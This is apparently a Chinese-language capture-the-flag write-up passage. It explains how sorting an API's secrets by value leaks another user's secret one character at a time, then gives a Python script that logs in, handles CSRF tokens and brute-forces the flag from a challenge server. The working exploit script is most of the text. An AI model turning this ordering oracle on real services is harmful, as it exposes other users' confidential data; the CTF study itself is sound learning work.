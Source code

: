 因此我们可以指定任意的一个键值作为排序的依据，而当我们反复覆写的 value 达到跟 id 为 1 的 secret 的临界值的时候，就可以得出某一位的值。譬如在内容为 rb 的时候，排序应该位于所求 secret 的 ra 的下方，而 ra 的时候则可能有所变化。按照这个规则写出如下脚本来获取 flag。

```python
import httpx as requests
from bs4 import BeautifulSoup
import json
import string

session = requests.Client(base_url="http://193.57.159.27:49687/")

# Fetch CSRF token
response = session.get("/auth/login")
html = BeautifulSoup(response.text, "html.parser")
csrfToken = html.find_all("input")[0]["value"]
print(f"[+] found CSRF token {csrfToken}")

# Login
response = session.post("/auth/login/", data={
    "csrfmiddlewaretoken": csrfToken,
    "username": "atest",
    "password": "thisisapassword"
})
assert "Hi" in response.content.decode()
print("[+] login successfully!")

# Bruteforce flag
flag = ""
characters = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz{}"
while True:
    signal = False
    for x in range(len(characters)):
        response = session.post("/api/secret/", json={
            "value": flag + characters[x]
        },headers={
            "X-CSRFToken": session.cookies['csrftoken']
        })
        selfSecretId = json.loads(response.content.decode())["id"]

        response = session.get("/api/secret/", params={
            "ordering": "value"
        })
        data = json.loads(response.content.decode())
        for datum in data:
            if datum["id"] == selfSecretId:
                break
            if datum["id"] == 1:
                signal = True
                break
        if signal == True:
            flag += characters[x - 1]
            print(flag)
            break
```

